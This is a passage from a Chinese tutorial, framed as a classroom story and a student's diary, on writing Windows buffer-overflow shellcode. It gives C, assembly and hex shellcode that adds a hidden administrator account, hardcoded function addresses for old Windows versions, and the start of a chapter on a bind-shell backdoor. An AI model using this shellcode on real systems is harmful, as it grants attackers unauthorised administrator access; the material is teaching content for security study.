    “\xFA\x77\xC6\x45\xFB\x30\xC6\x45\xFC\x38\xC6\x45\xFD\x33\xC6“
    “\x45\xFE\x30\xC6\x45\xFF\x00\x8D\x7D\xF9\x6A\x01\x56\x57\x6A“
    “\x00\xB8”
    “\xD7\xAD\xD3\x77”    //MessageBox 函数的地址
    “\xFF\xD0”
```

“再拿溢出程序测试就可以了。”古风抹抹了汗说。

“嗯，不错！希望大家都能理解好原理，掌握好方法。今天早点放学，我给大家再布置一个作业，回去独立完成一个 ShellCode，功能是在系统上添加一个用户，并把它加成管理员身份，下节课我会让一位同学上台来给大家讲解他的完成过程。大家都要认真准备啊！不然上台说不出话来，被大家笑话就不好意思了吧！班上还有女生呢！OK，今天到此为止，放学！”

# 2.5 添加用户 ShellCode 的编写

## 2.5 添加用户 ShellCode 的编写

以下摘自宇强的日记。

# 2.5.1 小强的日记之二——添加用户 ShellCode 的编写

### 2.5.1 小强的日记之二——添加用户 ShellCode 的编写

9 月 23 日 阴

这几次课都在学习缓冲区溢出利用的编程，现在已经进入 ShellCode 的编写阶段了。经过这几次的学习，自己对 ShellCode 的编写有了初步了解，知道 ShellCode 是如何来的，感觉在老师的指导下又有了很大进步。但要搞懂整个技术还有很长的路要走，自己一步步来吧！

老师还布置了作业，留给我的一个是找 Win2000 SP2 下 LoadLibrary 和 system 函数的地址；另一个是写一个在系统中添加一个管理员用户的 ShellCode，并让人上台讲。在回家的路上，我就想，自己一定要认真准备准备，不然抽到了我，上去什么都说不出来，其不惨了？

回到家后，匆匆吃完饭，就坐到电脑前考虑这两个问题。

对第一个找函数地址的问题，比较简单。我把老师给的程序拷到 Win2000 SP2 系统上，并加上找 LoadLibrary 的语句，得到 GetLoadSysAdd.cpp，就像图 2－20，然后编译、执行。


这个程序有问题，system 函数的地址找到了，是 0x77E6A254，但 LoadLibrary 地址为 0，表示没有找到。当时很奇怪，自己也一下子紧张了起来，马上上网找了很久才发现，在系统中是没有 LoadLibrary 这个函数的，只有 LoadLibraryA 和 LoadLibraryW 这两个函数，在 ASCII 参数时系统会用 LoadLibraryA，在 Unicode 参数时会用 LoadLibraryW。至于什么是 ASCII，什么是 Unicode，自己还不清楚，只有明天问老师了。

于是我马上把程序改成 LoadLibraryA 并执行，这下正确了，如图 2－21。


看到在 Win2000 SP2 上，system 函数地址为 0x78019B4A，LoadLibraryA 函数的地址为 0x77E6A254，我忙把它们抄了下来。第一个问题总算解决了，长松了一口气，心里稍微平缓了些。

然后我继续考虑第二个问题，编写添加用户的 ShellCode。在 Windows 中添加用户，要么在控制面板里的“用户帐号”中添加，要么在 DOS 命令行下执行 net user name /add ；要把一个帐户添加到管理员，则要在 DOS 命令行下执行 net localgroup administrators name /add 。

看来这里只有使用命令行下的指令添加用户了。我仿照老师的步骤，先写出 C 的程序，然后改成汇编，最后提取出 ShellCode。

和开 DOS 窗口的程序类似，添加一个名为“c”的管理员，其 C 程序代码如下：

```
#include <windows.h>
int main()
{
       LoadLibrary("msvcrt.dll");
       system("net user c /add");
       system("net localgroup administrators c /add");
       return 0;
}
```

即执行用户添加命令，再将用户执行升为管理员。我测试了一下，将程序命名为“AddUserC.c”，编译执行，成功了！添加了一个名为“c”的管理员用户，如图 2－22。


然后最困难的地方到了：把上面的程序改成汇编。

第一句“LoadLibrary(“msvcrt.dll”)”可以把老师给的程序抄过来。

第二、三句就要把老师给的代码稍微改一下，将参数改成这里的参数才行。

对“system("net user c /add")”这句话，就按 Windows 系统执行函数的原理，先参数入栈，再 CALL system 函数的地址。这里的参数是“net user c /add”字符串的地址，所以先在栈中构造出“net user c /add”，即这样：

```
mov esp,ebp ;        把 ebp 的内容赋值给 esp
push ebp ;             保存 ebp，esp 则减 4
mov ebp,esp ;        给 ebp 赋新值，将作为局部变量的基指针
xor edi,edi ;
push edi ;  压入 0，esp－4，作用是构造字符串的结尾\0 字符
push edi
push edi
push edi ;   加上上面，一共有 16 个字节，用来放“net user c /add” 
mov byte ptr [ebp-0Fh],6eh ;n
mov byte ptr [ebp-0eh],65h ;e 
mov byte ptr [ebp-0dh],74h ;t
mov byte ptr [ebp-0ch],20h ;
mov byte ptr [ebp-0bh],75h ;u
mov byte ptr [ebp-0ah],73h ;s
mov byte ptr [ebp-09h],65h ;e
mov byte ptr [ebp-08h],72h ;r
mov byte ptr [ebp-07h],20h ;
mov byte ptr [ebp-06h],63h ;c
mov byte ptr [ebp-05h],20h ;
mov byte ptr [ebp-04h],2Fh ;/
mov byte ptr [ebp-03h],61h ;a
mov byte ptr [ebp-02h],64h ;d
mov byte ptr [ebp-01h],0h ;0
```

字符串构造好后，再把 ESP——现在“net user c /add”串的地址作为参数，压入堆栈：

```
lea eax,[ebp-0fh] ;
push eax ;              字符串地址作为参数入栈
```

最后 CALL system 函数的地址（即 0x78019B4A）：

```
mov eax, 0x78019B4A ;        win2000 sp2 system 函数地址
call eax ;                              调用 system
```

上面的代码弄了半天才弄好。测试了一下，先把另外两句保留，只把“system("net user c /add")”改为上面的汇编，得到“AddUserASM.cpp”，运行结果如图 2－23，成功了！


当看到“命令成功完成”的提示时，我难以抑止心中那种狂喜的冲动，从椅子上跳了起来，把手握成拳头从空中划过，大吼了一声“Yeah”！当时的心情只有经历过千辛万苦最后成功的人才能体会到。那个时刻，我深深感受到了研究缓冲区编程的魅力。

父母推开门，问我发生了什么事，我笑了笑，告诉它们没什么，只是解决了一个技术问题。他们嘱咐我不要太累、注意早点休息后又出去了。心情稍平静后，我再次坐了下来，把剩下的“LoadLibrary(“msvcrt.dll”)”和“system("net localgroup administrators c /add")”也仿照着改为汇编，得到了“AddUserAllASM.cpp”，再次编译执行，还是成功了！

可能因为刚才太过兴奋，这次我的心情没那么激动了。最后剩下的只有体力活了，我按老师讲的方法在 VC 中按 F10 键进入调试状态，把汇编对应的机器码抄下来，得到了自己写的第一个 ShellCode。太有成就感了！

提取出 ShellCode 后，把它存在“AddUserCode.cpp”里，但发现还不知道如何验证是否正确，明天去问问老师吧！

ShellCode 比较长，我抄了很久，抄完后觉得好累啊！一看表，不知不觉夜都深了，今天就到这里吧，休息了，明天继续认真听课。那个小倩，今天看了我两眼，不知是否对我也有感觉呢？不想了，.继续努力吧！把握好大学这四年的时光，无悔这青春岁月。

到这里，我想起了一首诗。

取天狼

昨夜小风残月，望断天狼斜射。

万里苍穹茫茫，吾心蓦然雄起。

直取天狼，天为证。

若是它年不出头，甘愿忍受一生愁。

男儿立志扫四方，天狼星，英雄取。

海到无边天做岸，山登至极我为峰。

好个海到无边天做岸，山登至极我为峰！以此句为座右铭，提醒自己，时时努力，不敢松懈！

# 2.5.2 小强的日记之三——添加用户的另一种方法

### 2.5.2 小强的日记之三——添加用户的另一种方法

9 月 27 日 晴

今天是个艳阳天，就如同我的心情一样，晴空万里。

上午一大早我就去了教室，看了一会儿书，同学们才陆续到来。上课铃响后，老师走进了教室，问大家查找 LoadLibrary 和 system 函数地址的问题解决得怎么样。大家都把 system 函数的地址找到了，并一一报了出来。而 LoadLibrary 的地址其他人都说没有找到，老师最后问到了我，我说内存中没有 LoadLibrary 的函数，只有 LoadLibraryA 和 LoadLibraryW 函数，我找了 LoadLibraryA 的地址。老师高兴的说：“就是这样的。”并解释道：“在 Win2000 下，系统只有 LoadLibraryW 的实现，LoadLibraryA 只有一个壳。如果调用 LoadLibraryA，其实也是系统自动把 ASCII 参数变为 Unicode 参数，再调用 LoadLibraryW 函数。”

老师还把 ASCII 和 Unicode 的差别讲了一下。

小知识：ASCII 和 Unicode

ASCII 编码是用一个字节来表示字符，这样只有 256 种组合，能表达的字符有限。而 Unicode 是用两个字节（16 位）来表示字符，这样共有 65536 种组合，可以表达完世界上的所有文字。为了世界化推广产品、减少成本以及提高效率，现在人们都更多的使用 Unicode 编码。

Unicode 只是一个字形和内码上的标准，并没有定义实际在电脑中存取的方法。因此，Unicode 协会便定义了一整套存取 Unicode 编码的转换格式，称之为 UTF，常用的格式有 UTF-8 和 UTF-16。

接下来是讨论时间，老师找一位同学上去讲昨天的作业——添加用户的 ShellCode 的编写。当时老师环顾了一下大家，并问有没有同学自愿。我心里很矛盾，既想上去让大家看看我的成果，又怕讲得不好。最后在老师的再三激励以及小倩 MM 期待的目光下，我勇敢的站了起来，并在大家的掌声中走上了讲台。

在台上，我把昨天在家中的分析和实现过程详细的说了一遍，并把提取出来的 ShellCode 拿给老师和同学们看，结果得到了老师和同学们的一致肯定和表扬。

就是在台上的时候太紧张了，下台坐好后，才发现自己一身的汗水，腿也在不断打颤，幸好大家都看不到，特别是小倩，不然多没面子啊！相信有了这次经验，下次要好得多，希望以后能有更多类似的锻炼机会。

最后老师还给出了一种新的添加用户的版本，其 C 代码如下：

```
#ifndef UNICODE
#define UNICODE
#endif
#include <stdio.h>
#include <windows.h> 
#include <lm.h>
#pragma comment(lib,"netapi32")
int wmain()
{
       USER_INFO_1 ui;
       DWORD dwError = 0;
       ui.usri1_name = L"ww0830";
       ui.usri1_password = L"ww0830";
       ui.usri1_priv = USER_PRIV_USER;
       ui.usri1_home_dir = NULL;
       ui.usri1_comment = NULL;
       ui.usri1_flags = UF_SCRIPT;
       ui.usri1_script_path = NULL;
       //添加名为 ww0830 的用户，密码也为 ww0830   
       if(NetUserAdd(NULL, 1, (LPBYTE)&ui, &dwError) == NERR_Success)
       {
              //添加成功
              printf("Add user success.\n");
       }
       else
       {
              //添加失败
              printf("Add user Error!\n");
              return 1;
       }
       wchar_t szAccountName[100]={0};
       wcscpy(szAccountName,L"ww0830");
    LOCALGROUP_MEMBERS_INFO_3 account;
       account.lgrmi3_domainandname=szAccountName;
       //把 ww0830 添加到 Administrators 组
       if(NetLocalGroupAddMembers(NULL,L"Administrators",3,(LPBYTE)&account,1)== NERR_Success )
       {
              //添加成功
              printf("Add to Administrators success.\n");
              return 0;
       }
       else
       {
              //添加失败
              printf("Add to Administrators Fail!\n");
              return 1;
       }   
}
```

这种方法用的是 Netapi32.dll 里的 NetUserAdd 和 NetLocalGroupAddMembers 函数。好酷啊！执行效果如图 2－24。当时我就下定决心：自己会复杂 ShellCode 的编写后，一定要把它改为机器码的 ShellCode。


不过我又想到，那些实际的 ShellCode 是怎样的呢？如果只是添加个用户，用处不是很大，于是我提出了自己的疑问。

老师又表扬了我，说考虑得很全，并说下节课继续复杂的 ShellCode 的研究，写一个真正的 ShellCode。

看到小倩又看了我一眼，心里为之一动。她这一望，有什么意思呢？她也知道我的一片心情吗？

最远的距离不是天涯海角，而是在你身边却不知道我爱你。

可能以后自己会慢慢理解这句话吧！

可惜今天我要早点去亲戚家吃饭，下课后就急急忙忙的走了。

晚上去外婆家玩到很晚。一家人聚在一起吃饭很是热闹，很久没有这样放松过了。作业完成得很好，也可以好好的休息一下了，今天真是惬意啊！

# 课后解惑

## 课后解惑

Q：我在 Windows 2000 SP2 版本下，查找到 LoadLibraryA 函数的地址是 0x77E6A254，system 函数的地址是 0x78019B4A，都是正确的，但为什么我把 ShellCode 对应的地方改成“\x77\xE6\xA2\x54”和“\x78\x01\x9B\x4A”后，不能弹出 DOS 窗口呢？

A：你把字节的顺序写反了，应该是“\x54\xA2\xE6\x77”和“\x4A\x9B\x01\x78”。

Q：哦！改动后的确能正确弹出 DOS 对话框了，但为什么顺序要是这样呢？好别扭啊！

A：在 Windows 系统下，多字节数存放的规则是：数的高位放在内存高址，数的低位放在内存低址。对 0x77E6A25478 来说，0x77 是最高位，所以要放在内存的高地址，而在字符串中，是按照内存从低到高排列的，所以要把 0x77 放在字符串中数的最后。在后面的章节中还会讲到。

Q：能不能给出一些系统下 LoadLibraryA 函数和 system 函数的地址值呢？

A：好的。LoadLibraryA 和 system 函数的地址在 Win2000 SP0 下，分别是 0x77E78023 和 0x7801AAAD；在 SP2 下分别是 0x77E6A254 和 0x78019B4A；在 SP3 下分别是 0x77E69F64 和 0x7801AFC3；在 XP SP0 下分别是 0x77E605D8 和 0x77BF8044。

要注意的是，覆盖的跳转地址也要符合相应版本，最好使用通用地址。

Q：为什么 LoadLibrary 函数在系统里面有 LoadLibraryA 和 LoadLibraryW 两种实现？而 system 只有一个实现，没有 systemA 或 systemW 呢？

A：问得好！这是因为在 Windows 下，存在几种编程接口。

一种是 Windows API 函数。这类函数是和 Windows 系统相关的，使用的也是 Windows 下才特有的数据类型（比如 CHAR）。API 函数就存在 A 和 W 这两种实现，而 LoadLibrary 是 API 函数。

另一种是 C 运行链接库，是按照 C 语言的标准来实现的，所以只有小写字母，而且只有一种实现，比如 system 函数。

Q：那怎么区分 API 函数和 C 运行库函数呢？

A：从函数的命名可以看出来。API 函数遵循的是 Windows 自己定义的命名规范，是大?濨氷? 小写混写的函数，如 LoadLibrary；而在 C 语言标准中，规定函数名称都是小写，所以 C 运行库函数也遵循全是小写的规范，如 system。

Q：为什么 Windows 会有两种命名规范呢？

A：因为微软想遵循一种更科学的命名规范，所以规定了 API 函数命名法则；但为了保持和标准 C 语言的兼容，C 运行库函数还是遵循了 C 语言标准的规定；所以存在了两种命名规范。

Q： 那我们自己编程时用那种命名规则呢？

A：哈哈！命名规则应和所用的操作系统或开发工具的风格保持一致。例如，Windows 应用程序的标识符通常用“大小写”混排的方式，如 AddChild；而 Unix 应用程序的标识符用“小写加下划线”的方式，如 add_child。别把这两类风格混在一起用。

我们自己开发时，在 Windows 下建议使用“匈牙利”命名规则，类名和函数名用大写字母开头的单词组合而成，变量和参数用小写字母开头的单词组合而成，常量全用大写，全局变量加前缀“g”，类的数据成员加前缀“m_”。

Q： 我们如何验证提取出的 ShellCode 是否正确呢？太容易抄错了。

A：有两种方法。一种方法是在实际溢出程序中，使用提取出的 ShellCode 测试，看能否达到效果；另一种方法就是把 ShellCode 数组当成一个函数来执行，其实现办法会在下一章的“验证 ShellCode 功能方法”中讲到。

Q： 好像 ShellCode 里面不能有 0x00，为什么呢？怎么避免呢？

A：因为 0x00 是字符串的结束符，如果 ShellCode 中存在，就会被截断；我们会在 ShellCode 变形大法一章中详细的讲解如何避免 0x00 的方法。

# 第三章、后门的编写和 ShellCode 的提取

# 第三章、后门的编写和 ShellCode 的提取

新的一周开始了，又到了上课时间。

“唉，足球又输了。”老师一进教室就说。

“什么比赛，打谁啊？几比几？”女生们不解的问道。

“世界杯小组预选赛，客场打科威特 0 比 1 输了”。老师把包往凳子上一扔，懒懒的说。

“哎哟，科威特都打不过啊……还记得亚洲杯 3 比 1 输给了日本队呢！”

“是啊，这下小组能否出线还是个问题！我从 94 年甲 A 开始就开始看球了，结果越看越没意思。”老师边准备上课边说，“到现在，任何国内比赛都不看了，最多看看国家队的比赛。”

“国内的球队，还是要支持吧？”一个女生说道。

“别提了，当年成都保卫战时，凌晨就要排队买票；虽然成绩不理想，但大家还是一如既往的支持。”宇强也说道，“但现在……主要是一些东西太让人失望了。”

“是啊，希望我不要让你们失望啊！呵呵！”老师开玩笑的说。

“那里，那里，怎么会哦！”大家说，“但老师要把技术全盘托出哦！”

“呵呵，我全盘托出倒没问题，大家可要加油学习啊！”老师说道。

“当然，我们也不会让老师失望的。”

“呵呵，刚才是给大家鼓鼓气！今天我们会进入真正 ShellCode 的编写！”老师恢复了上课状态，“ShellCode 是完成功能的代码，现实中的 ShellCode 有很多种，一是因为我们想要的功能很多；二是由于即使完成一种功能，也有很多不同的实现，它们各有优劣，不能说谁好谁坏。”

“哦！一般的 ShellCode 都有哪些功能呢？”古风问道。

“ShellCode 的功能很多，常见的一些是开一个本地端口、反连攻击机、下载一个文件并执行、传输一个文件并执行等。”

“哦，这么多啊！”

“呵呵，还有更高级的功能呢，比如直接监听、直接重用端口、恢复堆链表、直接找出已有的 Socket 来使用等。”

“啊？”同学们都听得一愣一愣的。

“不要紧，我们一步步的来学习。记住我们的宗旨是……”

没有蛀牙。”玉波一口答道。

“哐噹……”台上台下倒成一片。

老师好不容易缓过气来，对着胖胖的玉波说道：“我们要记住的是——掌握学习方法，而不是技术本身！”

“哦，对啊，对啊！”玉波乐着说。

# 3.1 预备知识

## 3.1 预备知识

“好，今天我们实现一个开端口的 ShellCode，―个真正的 ShellCode。此 ShellCode 的功能是在对方机器上用某个端口开一个 Telnet 服务器，然后等待远程机器来连接。当远程机器连接上之后，为其开创一个 cmd.exe，把远程机器的输入输出和 cmd.exe 的输入输出联系起来。这样，远程使用者就有了一个远程 Shell。”

“好啊！”虽然还不大懂，但又有东西学了，大家都很高兴。

“这里比以前要麻烦些，有网络编程、进程通信、管道等各方面，我们一个个的来解决。大家可要有耐心啊！”

“好哩！”

# 3.1.1 IP 和 Socket 编程初步

### 3.1.1 IP 和 Socket 编程初步

“我们的 ShellCode 的功能是完成网络的远程连接，那自然会涉及到网络通信。网络通信有好几种实现方法，这里我们使用 Windows Socket 编程。”

小知识：Windows 下网络通信编程的几种方式

第一种是基于 NetBIOS 的网络编程，这种方法在小型局域网环境下的实时通信有很高的效率；

第二种是基于 Winsock 的网络编程；这种方法使用一套简单的 Windows API 函数来实现应用层上的编程；

第三种是直接网络编程；比如 Winpcap、libnet 等网络数据包构造技术可以完成链路层或网络层上的网络编程；

第四种是基于物理设备的网络编程，即 MAC 层编程接口。

“Socket 是什么？有什么用处呢？”玉波问道。

“和 IP 作类比吧。在国际互联网 Internet 上，有成千百万台主机，为了区分这些主机，人们给每台机器都分配了一个专门的‘地址’作为标识，这就是 IP 地址。IP 地址就像是计算机在网上的身份证，通过它才能确定网上不同的机器，大家才能互相通信。”

小知识：

Internet IP 地址由 Inter NIC（Internet 网络信息中心）统一负责全球地址的规划、管理。通常，每个国家需成立一个组织统一向有关国际组织申请 IP 地址，然后再分配给客户。

IP 地址分为 A、B、C、D 和 E 类。IP 地址通常以圆点为分隔号的 4 个十进制数字表示，每个数字对应于 8 个二进制的比特串，如某一台主机的 IP 地址表示格式为： 128.20.4.1 。

“我们要看自己机器上的 IP 很方便。”老师接着说，“一种方法是在‘网上邻居’上点击鼠标右键，在弹出菜单中选择‘属性’；然后在‘本地连接’图标上点击右键，选择‘属性’，选中‘Internet 协议(TCP/IP)’并双击；就可看到图 3－1 所示的窗口。”


“可以看到，这台机器的 IP 是 211.83.154.20，但如果是通过 DHCP 服务器自动获得 IP 地址，那这种方法就不行了。”老师换了一台机器进行演示，“看，不会在这里显示出 IP 地址，如图 3－2。”


“这个时候，我们就要用另一种方法了。点击‘开始’→‘运行’，输入‘cmd’并确定，在命令行下输入 ipconfig 就可看到 IP，如图 3－3，IP 是 10.4.4.79。”


小知识：IP 地址危机和 NAT 转换

最初设计 IP 协议时，设计者没有料到网络会如此的高速发展，现在 IP 地址正迅速的枯竭，如果没有 IP 地址，主机或者移动通信设备在网络上就没有唯一的身份识别，也就不能发送或接收数据了。

有两种解决办法。一是使用新一代的 IP 协议——IPv6，IPv6 采用 128 位数字，所以地址的范围可以看作是无限的；另一种是使用 NAT（Network Address Translation）——网络地址转换，允许内部网络上的多台 PC（使用内部地址段，如 10.0.x.x、192.168.x.x、172.x.x.x）共享单个、全局路由的 IPv4 地址，这在一定程度上缓解了 IP 地址不足的问题。

“这下大家对 IP 地址没什么问题了吧。”老师问道。

“嗯，清楚了。”

“好，然后我们来看看 Socket 吧！虽然 IP 可以唯一的区分网络上的每台主机，但每台主机可能同时和多台机器通信，有可能某个软件就和多台机器通信，比如大家常用的 QQ、IE 浏览器。”

“所以仅仅依靠 IP 地址是无法区分一台机器的所有通信的。”老师继续说道，“为了解决这个问题，就引入了 Socket（中文名称是套接字）。”

“对每一个通信，除了 IP 地址外，还用一个标识符 Socket 来标明每个通信程序（进程）。示意图如图 3－4。”


“打个比方，我有一把钥匙，可以打开某个房间里的一把锁，但仅仅知道房间号还不够，还需要知道是具体那把锁。”

“如果把多个房间看成是多台计算机，那房间号就相当于 IP 地址，钥匙是数据，锁就是程序。数据和程序要通信，就像钥匙要找到所属的锁，仅凭所在的房间号是不够的。”

老师喝了一口水，继续说道：“所以我们可以在钥匙上贴一个标签，注明是哪个房间、哪把锁的钥匙。就像通信中的 Socket，作为计算机通信的标记，标明通信是哪台机器的哪个程序的。这样就可准确分别出通信双方了。”

“哦，这样啊！”大家一下就明白了。

“套接字 Socket 在网络通信中非常重要，当年可是加利福尼亚大学伯克利分校（Berkeley）耗费了大量精力才设计出来的，所以也称为 Berkeley 套接字。”

“哦，那以后我也设计个吃的东西，拿我的名字命名。”玉波满怀信心的说。

“不用设计什么了。他高傲，但宅心人厚；他谦虚，但受万人敬仰！他就是来自天堂的使者、地狱的恶魔——食神玉波！”

“哈哈哈哈……”大家狂笑了起来。

“好了，”老师说道，“我相信在座的各位在不久之后一定会有所建树的，出名之后，可不要忘了我啊！”

“哈哈哈哈……”大家又大笑了起来，眼泪都快出来了。

“OK！玩笑开够了，我们继续，”课堂稍微安静后老师说道，“通过伯克利的成果，我们使用 Socket 实现网络通信编程就非常方便了。Socket 其实就是一个整数，它标识了计算机上不同的通信端点。程序在通信前首先建立一个套接字，以后对设置 IP、端口和传输数据，都通过此套接字来进行。”

小知识：端口 port

是指 TCP/IP 协议中规定的端口，范围从 0 到 65535。它可以标志某种服务，比如网页服务器一般是 80 端口，FTP 服务器一般是 21 端口；在客户端连接中，也需要一个端口来通信，一般是比较高的动态端口号。

“大家理解了套接字 Socket 的概念，是不是想实际使用一下呢？”老师问道。

“是啊！想看看到底是怎样编程的。”

“好！使用 Socket 在两台计算机上实现通信，其实是件简单的事。首先我们看通信的流程。”

“通信双方一定有一台是服务端，一台是客户端。服务端首先启动，建立一个套接字 Socket，并对相应的 IP 和端口进行绑定、监听；客户端也建立一个套接字，和服务端不同，它直接连接服务端监听的端口。双方建立连接后，服务端和客户端就可以互相传输数据了，当然都是通过 Socket 来完成的。”

“其工作流程图如 3－5。”


“对图中的那些函数，我这里稍加解释一下。”

```
int  WSAStartup(WORD wVersionRequested, LPWSADATA  lpWSAData);
```

功能是初始化 Windows Socket Dll，在 Windows 下必须使用它。

参数：

“wVersionRequested”表示版本，可以是 1.1、2.2 等；

“lpWSAData”指向 WSADATA 数据结构的指针。

```
int socket(int family, int type, int protocol);
```

功能是建立 Socket，返回以后会用到的 Socket 值。如果错误，返回－1。

参数：

“int family”参数指定所要使用的通信协议，取以下几个值：AF_UNIX（Unix 内部协议）、AF_INET（Internet 协议）、AF_NS Xerox（NS 协议）、AF_IMPLINK（IMP 连接层），在 Windows 下只能把“AF”设为“AF_INET”；

“int type”参数指定套接字的类型，取以下几个值：SOCK_STREAM（流套接字）、SOCK_DGRAM （数据报套接字）、SOCK_RAW（未加工套接字）、SOCK_SEQPACKET（顺序包套接字）；

“int protocol”参数通常设置为 0。

```
int bind(int sockfd, struct sockaddr *my_addr, int addrlen);
```

功能是把套接字和机器上一定的端口关联起来。

参数：

“sockfd”是调用 socket()返回的套接字值；

“my_addr”是指向数据结构 struct sockaddr 的指针，它保存你的地址，即端口和 IP 地址信息；

“addrlen”设置为 sizeof(struct sockaddr)。

```
int listen(int sockfd, int backlog);
```

功能是服务端监听一个端口，直到 accept()。在发生错误时返回-1。

参数：

“sockfd”是调用 socket()返回的套接字值；

“backlog”是允许的连接数目。大多数系统的允许数目是 20，也可以设置为 5 到 10。

```
int connect(int sockfd, struct sockaddr *serv_addr, int addrlen);
```

功能是客户端连接服务端监听的端口。

参数：

“sockfd”是调用 socket()返回的套接字值；

“serv_addr”保存着目的地端口和 IP 地址的数据结构 struct sockaddr；

“addrlen”设置为 sizeof(struct sockaddr)。

```
int accept(int sockfd, void *addr, int *addrlen);
```

功能是服务端接受客户端的连接请求，并返回一个新的套接字，以后服务端的数据传输就使用这个新的套接字。如果有错误，返回-1。

参数：

“sockfd”是和 listen()中一样的套接字值；

“addr”是个指向局部的数据结构 sockaddr_in 的指针；

“addrlen”设置为 sizeof(struct sockaddr_in)。

```
int send(int sockfd, const void *msg, int len, int flags);
int recv(int sockfd, void *buf, int len, unsigned int flags);
```

功能是用于流式套接字或数据报套接字的通讯，我们数据的真正传输就由它们完成。

参数：

“sockfd”是发/收数据的套接字值；

“msg”指向你想发送的数据的指针；

“buf”是指向接收数据存放的地址；

“len”是数据的长度；

“flags”设置为 0。

```
int sendto(int sockfd, const void *msg, int len, unsigned int flags,const struct sockaddr *to, int tolen);
int recvfrom(int sockfd, void *buf, int len, unsigned int flags, 　struct sockaddr *from, int *fromlen);
```

功能和 send、recv 类似，不过是用于无连接数据报套接字的传输。

```
int closesocket（int sockfd）
```

功能是关闭套接字。

参数“sockfd”为要关闭的套接字值。

“哇！好复杂的函数，好难记啊！”大家嚷道。

“NO，虽然函数有点多，每个函数又有很多参数，但大家完全没有必要去死记（其实也是记不清的）。大家要记的是流程和思路，编程要用具体函数时，查 MSDN 吧！非常详细的开发帮助资料，会找到你要用的。如图 3－6。”


“有了上面的基础，我们一起来看一个具体程序。这个程序比较简单，服务端监听某个端口，如果有客户端连接，就向它发一字符串，客户端收到后，在屏幕上打出来。”

“但我们对编程还不大懂啊！”

“这里的目的是让大家对 Socket 编程有个整体了解。不用怕，程序我会详细解释的，首先是服务端的程序。其流程是：

```
socket()→bind()→listen→accept()→recv()/send()→closesocket()
```

具体代码如下：”

```
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib,"Ws2_32")
#define MYPORT 830  /*定义用户连接端口*/ 
#define BACKLOG 10  /*多少等待连接控制*/ 
int main() 
{
         int sockfd, new_fd;                                  /*定义套接字*/
         struct sockaddr_in my_addr;          /*本地地址信息 */ 
         struct sockaddr_in their_addr;        /*连接者地址信息*/ 
         int sin_size;
         WSADATA ws;
         WSAStartup(MAKEWORD(2,2),&ws);           //初始化 Windows Socket Dll
          //建立 socket
         if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
         { 
                   //如果建立 socket 失败，退出程序
                   printf("socket error\n"); 
                   exit(1); 
         } 
         //bind 本机的 MYPORT 端口
         my_addr.sin_family = AF_INET;                     /* 协议类型是 INET  */ 
         my_addr.sin_port = htons(MYPORT);            /* 绑定 MYPORT 端口*/ 
         my_addr.sin_addr.s_addr = INADDR_ANY;   /* 本机 IP*/ 
         if (bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr))== -1)
         { 
                   //bind 失败，退出程序
                   printf("bind error\n"); 
                   closesocket(sockfd);
                   exit(1); 
         }
         //listen，监听端口
         if (listen(sockfd, BACKLOG) == -1)
         { 
                   //listen 失败，退出程序
                   printf("listen error\n"); 
                   closesocket(sockfd);
                   exit(1); 
         } 
         printf("listen...");
         //等待客户端连接
         sin_size = sizeof(struct sockaddr_in); 
         if ((new_fd = accept(sockfd, (struct sockaddr *)&their_addr, &sin_size)) == -1)
         { 
                   printf("accept error\n"); 
                   closesocket(sockfd);
                   exit(1);
         } 
         printf("\naccept!\n");
         //有连接，发送 ww0830 字符串过去
         if (send(new_fd, "ww0830\n", 14, 0) == -1) 
         {
                   printf("send error");
                   closesocket(sockfd);
                   closesocket(new_fd); 
                   exit(1); 
         } 
         printf("send ok!\n");
         //成功，关闭套接字
         closesocket(sockfd);
         closesocket(new_fd);
         return 0;
}
```

老师说：“程序看起来比较长，是因为加了许多错误处理。如果去掉他们，就可以看出程序的本质。我再重复一遍，流程如下：”

对服务端程序的流程概括：

先是初始化 Windows Socket Dll： `WSAStartup(MAKEWORD(2,2),&ws);`

然后建立 Socket： `sockfd = socket(AF_INET, SOCK_STREAM, 0)`

再 bind 本机的 MYPORT 端口：

```
my_addr.sin_family = AF_INET;         /* 协议类型是 INET   */ 
my_addr.sin_port = htons(MYPORT);       /* 绑定 MYPORT 端口  */ 
my_addr.sin_addr.s_addr = INADDR_ANY;   /* 本机 IP           */ 
bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr))
```

接下来监听端口： `listen(sockfd, BACKLOG)`

如果有客户端的连接请求，接收它： `new_fd = accept(sockfd, (struct sockaddr *)&their_addr, &sin_size)`

最后发送 ww0830 字符串过去： `send(new_fd, "ww0830\n", 14, 0)`

收尾工作，关闭 socket： `closesocket(sockfd); closesocket(new_fd);` ”

“哦，果然都是对 Socket 的操作。可不可以先看看服务端的效果呢？”大家问道。

“当然可以了，我们把 server.cpp 编译、执行，就会一直监听 830 端口，如图 3－7。”


“测试它能否传输数据吧！在另一台机器上进入命令行界面，输入 telnet 服务器 IP 830 ，我的服务器 IP 是 211.83.154.120，如图 3－8。”


“敲回车，执行效果如图 3－9，客户端成功收到了服务端发的‘ww0830’字符串，并打了出来；服务端也显示传输成功（图 3－10）。”


“乌拉！是啊！”

“刚才使用的 Telnet 是 Windows 系统自带的程序。我们既然可以实现服务端程序，那当然也可以实现客户端程序了。其流程是：

```
socket()→connect()→send()/recv()→closesocket()
```

比服务端更简单吧！其实现代码如下：”

```
#include <stdio.h>
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib,"Ws2_32")
#define PORT 830                            /* 客户机连接远程主机的端口 */ 
#define MAXDATASIZE 100                     /* 每次可以接收的最大字节 */ 
int main(int argc, char *argv[]) 
{ 
int sockfd, numbytes; 
char buf[MAXDATASIZE]; 
struct sockaddr_in their_addr;        /* 对方的地址端口信息 */ 
if (argc != 2) 
{ 
           //需要有服务端 ip 参数
           fprintf(stderr,"usage: client hostname\n"); 
           exit(1); 
} 
　WSADATA ws;
WSAStartup(MAKEWORD(2,2),&ws);         //初始化 Windows Socket Dll
 if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
{ 
           //如果建立 socket 失败，退出程序
           printf("socket error\n"); 
           exit(1); 
} 
//连接对方
their_addr.sin_family = AF_INET;                         /* 协议类型是 INET  */ 
their_addr.sin_port = htons(PORT);                       /* 连接对方 PORT 端口 */ 
their_addr.sin_addr.s_addr = inet_addr(argv[1]);        /* 连接对方的 IP */ 
if (connect(sockfd, (struct sockaddr *)&their_addr,sizeof(struct sockaddr)) == -1)
{ 
